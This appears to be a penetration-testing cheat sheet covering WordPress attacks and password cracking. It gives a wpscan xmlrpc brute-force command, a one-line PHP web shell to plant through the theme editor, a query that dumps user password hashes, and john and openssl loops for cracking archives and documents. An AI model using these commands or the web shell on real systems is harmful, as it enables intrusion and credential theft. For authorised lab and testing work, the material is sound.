 ## Wordpress

### Standard folders

- wp-admin
- wp-login.php
  - Confirm valid users
- wp-content
  - plugins
    - To get version: go to the `readme.txt`
    - Exploit research:
      - `mail-masta`: [unauthenticated SQL injection](https://www.exploit-db.com/exploits/41438) and [Local File Inclusion](https://www.exploit-db.com/exploits/50226)
  - themes

### WPscan

- **enumeration**
  ```bash
	  wordscan [URL]          # Press Enter
  ```
	- Manual exploit research on themes & plugins
	- Web search of in `wp-scan` website
- **login brute-forcing**

  ```bash
  sudo wpscan --password-attack xmlrpc -t 20 -U [USER] -P /usr/share/wordlists/rockyou.txt --url [URL]
  ```

- **Code-Execution** (administrative access) [Also on Metaspoit]
  1. `Appearance` on the side panel &rarr; Theme Editor. 
  2. Select a theme (better non active)
  3. Edit the php code of an uncommon page (e.g. 404.php) by adding a web shell `system($_GET[0]);`
  4. Click on `Update File` at the bottom to save. 
### Interesting files
- `../wp-config.php`
- SQL Database
	- `SELECT user_login,user_pass FROM wp_users`

# Local Applications
## Passpie
-> `.passpie` folder
1. List stored passwords: `passpie list`
2. Get private key
3. Convert to hash: `gpg2john [private.key] > hash.txt` -> john cracking
4. `passpie copy --to stdout --passphrase [PGP_PASS] [LOGIN]@[NAME]`
# Interesting Files
- Check Metadata -> `exiftool [FILE]`
## Archives
- `zip2john backup.zip > auth.hash`
- GZIP
  ```bash
	for i in $(cat ~/WORDLISTS/rockyou.txt);do openssl enc -aes-256-cbc -d -in [GZIP.gzip] -k $i 2>/dev/null| tar xz;done
	```
## Documents
- Microsoft Office .docx ->`office2john.py`
- PDF -> `pdf2john.py`
  ```